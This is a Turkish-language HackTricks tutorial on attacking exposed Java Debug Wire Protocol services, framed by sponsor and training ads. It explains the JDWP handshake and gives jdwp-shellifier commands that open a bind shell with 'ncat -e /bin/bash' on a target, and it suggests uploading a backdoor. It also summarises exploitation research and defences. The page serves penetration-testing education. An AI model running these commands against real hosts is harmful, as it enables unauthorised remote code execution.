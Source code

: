 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Web uygulamalarınız, ağınız ve bulutunuz hakkında bir hacker perspektifi edinin

**Gerçek iş etkisi olan kritik, istismar edilebilir güvenlik açıklarını bulun ve raporlayın.** Saldırı yüzeyini haritalamak, ayrıcalıkları artırmanıza izin veren güvenlik sorunlarını bulmak ve temel kanıtları toplamak için otomatik istismarları kullanmak için 20'den fazla özel aracımızı kullanın, böylece sıkı çalışmanızı ikna edici raporlara dönüştürün.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## İstismar

JDWP istismarı, **protokolün kimlik doğrulama ve şifreleme eksikliğine** dayanır. Genellikle **8000 numaralı portta** bulunur, ancak diğer portlar da mümkündür. İlk bağlantı, hedef porta "JDWP-Handshake" gönderilerek yapılır. Eğer bir JDWP servisi aktifse, aynı dize ile yanıt verir ve varlığını doğrular. Bu el sıkışma, ağdaki JDWP hizmetlerini tanımlamak için bir parmak izi yöntemi olarak işlev görür.

Süreç tanımlama açısından, Java süreçlerinde "jdwk" dizesini aramak, aktif bir JDWP oturumunu gösterebilir.

Kullanılacak araç [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Farklı parametrelerle kullanabilirsiniz:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## Daha fazla detay

**Bu, [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) adresinin bir özetidir.** Daha fazla detay için kontrol edin.

1. **JDWP Genel Bakış**:
- Paket tabanlı bir ağ ikili protokoldür, öncelikle senkronizedir.
- Kimlik doğrulama ve şifreleme eksikliği, düşmanca ağlara maruz kaldığında güvenlik açığı oluşturur.

2. **JDWP El Sıkışması**:
- İletişimi başlatmak için basit bir el sıkışma süreci kullanılır. Debugger (istemci) ve Debuggee (sunucu) arasında 14 karakterlik bir ASCII dizesi “JDWP-Handshake” değiştirilir.

3. **JDWP İletişimi**:
- Mesajlar, Uzunluk, Kimlik, Bayrak ve Komut Seti gibi alanlarla basit bir yapıya sahiptir.
- Komut Seti değerleri 0x40 ile 0x80 arasında değişir ve farklı eylem ve olayları temsil eder.

4. **Sömürü**:
- JDWP, keyfi sınıfları ve bytecode'u yüklemeye ve çağırmaya izin verir, bu da güvenlik riskleri oluşturur.
- Makale, Java Runtime referanslarını alma, kesme noktaları ayarlama ve yöntemleri çağırma gibi beş adımda bir sömürü sürecini detaylandırmaktadır.

5. **Gerçek Hayatta Sömürü**:
- Potansiyel güvenlik duvarı korumalarına rağmen, JDWP hizmetleri keşfedilebilir ve gerçek dünya senaryolarında sömürülebilir, bu da ShodanHQ ve GitHub gibi platformlarda yapılan aramalarla gösterilmektedir.
- Sömürü betiği çeşitli JDK sürümlerine karşı test edilmiştir ve platformdan bağımsızdır, güvenilir Uzaktan Kod Yürütme (RCE) sunar.

6. **Güvenlik Etkileri**:
- İnternette açık JDWP hizmetlerinin varlığı, düzenli güvenlik incelemeleri yapma, üretimde hata ayıklama işlevlerini devre dışı bırakma ve uygun güvenlik duvarı yapılandırmalarının gerekliliğini vurgular.

### **Kaynaklar:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Web uygulamalarınız, ağınız ve bulut için bir hacker perspektifi edinin

**Gerçek iş etkisi olan kritik, sömürülebilir güvenlik açıklarını bulun ve raporlayın.** Saldırı yüzeyini haritalamak, ayrıcalıkları artırmanıza izin veren güvenlik sorunlarını bulmak ve temel kanıtları toplamak için otomatik sömürüleri kullanmak için 20'den fazla özel aracımızı kullanın, sıkı çalışmanızı ikna edici raporlara dönüştürün.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
